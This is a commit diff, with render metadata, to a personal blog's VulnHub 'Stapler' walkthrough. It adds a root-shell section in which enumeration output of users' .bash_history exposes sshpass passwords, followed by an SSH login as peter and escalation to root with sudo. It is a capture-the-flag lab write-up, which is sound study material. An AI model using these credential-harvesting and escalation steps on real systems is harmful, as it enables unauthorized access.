

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/vulnhub/2020-03-08-stapler.md, in a window 1280 px wide and 1400 px high, scrolled down 26215 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-08-stapler.md

````diff
--- a/_posts/vulnhub/2020-03-08-stapler.md
+++ b/_posts/vulnhub/2020-03-08-stapler.md
@@ -795,3 +795,151 @@
 SHayslett@red:~$ id
 uid=1005(SHayslett) gid=1005(SHayslett) groups=1005(SHayslett)
 ```
+
+## Root Shell
+
+We can find some interesting stuff looking through the contents of `bash_history` of all the users
+```bash
+
+[00;31m[-] Location and contents (if accessible) of .bash_history file(s):[00m
+/home/MFrei/.bash_history
+exit
+/home/Sam/.bash_history
+exit
+/home/CCeaser/.bash_history
+free
+exit
+/home/DSwanger/.bash_history
+exit
+/home/JBare/.bash_history
+exit
+/home/mel/.bash_history
+exit
+/home/jess/.bash_history
+exit
+/home/MBassin/.bash_history
+exit
+/home/kai/.bash_history
+exit
+/home/elly/.bash_history
+exit
+/home/Drew/.bash_history
+exit
+/home/JLipps/.bash_history
+exit
+exit
+/home/jamie/.bash_history
+top
+ps aux
+exit
+/home/Taylor/.bash_history
+exit
+id
+/home/peter/.bash_history
+/home/SHayslett/.bash_history
+exit
+/home/JKanode/.bash_history
+id
+whoami
+ls -lah
+pwd
+ps aux
+sshpass -p thisimypassword ssh JKanode@localhost
+apt-get install sshpass
+sshpass -p JZQuyIN5 peter@localhost
+ps -ef
+top
+kill -9 3747
+exit
+/home/AParnell/.bash_history
+exit
+/home/CJoo/.bash_history
+exit
+/home/Eeth/.bash_history
+exit
+/home/RNunemaker/.bash_history
+exit
+/home/SHAY/.bash_history
+exit
+/home/ETollefson/.bash_history
+exit
+/home/IChadwick/.bash_history
+exit
+/home/LSolum2/.bash_history
+exit
+whoami
+/home/SStroud/.bash_history
+exit
+/home/LSolum/.bash_history
+exit
+/home/NATHAN/.bash_history
+exit
+/home/zoe/.bash_history
+top
+exit
+```
+
+We can see some password in here.
+```bash
+/home/JKanode/.bash_history
+id
+whoami
+ls -lah
+pwd
+ps aux
+sshpass -p thisimypassword ssh JKanode@localhost
+apt-get install sshpass
+sshpass -p JZQuyIN5 peter@localhost
+```
+
+Login using the credentials of `peter`
+
+```bash
+kali@kali:~$ ssh peter@stapler.com
+-----------------------------------------------------------------
+~          Barry, don't forget to put a message here           ~
+-----------------------------------------------------------------
+peter@stapler.com's password:
+Welcome back!
+This is the Z Shell configuration function for new users,
+zsh-newuser-install.
+You are seeing this message because you have no zsh startup files
+(the files .zshenv, .zprofile, .zshrc, .zlogin in the directory
+~).  This function can help you with a few settings that should
+make your use of the shell easier.
+
+You can:
+
+(q)  Quit and do nothing.  The function will be run again next time.
+
+(0)  Exit, creating the file ~/.zshrc containing just a comment.
+     That will prevent this function being run again.
+
+(1)  Continue to the main menu.
+
+(2)  Populate your ~/.zshrc with the configuration recommended
+     by the system administrator and exit (you will need to edit
+     the file by hand, if so desired).
+
+--- Type one of the keys in parentheses ---
+
+Aborting.
+The function will be run again next time.  To prevent this, execute:
+  touch ~/.zshrc
+red% id
+uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
+red% sudo su
+
+We trust you have received the usual lecture from the local System
+Administrator. It usually boils down to these three things:
+
+    #1) Respect the privacy of others.
+    #2) Think before you type.
+    #3) With great power comes great responsibility.
+
+[sudo] password for peter:
+➜  peter id
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+root was just a `sudo` away.
````
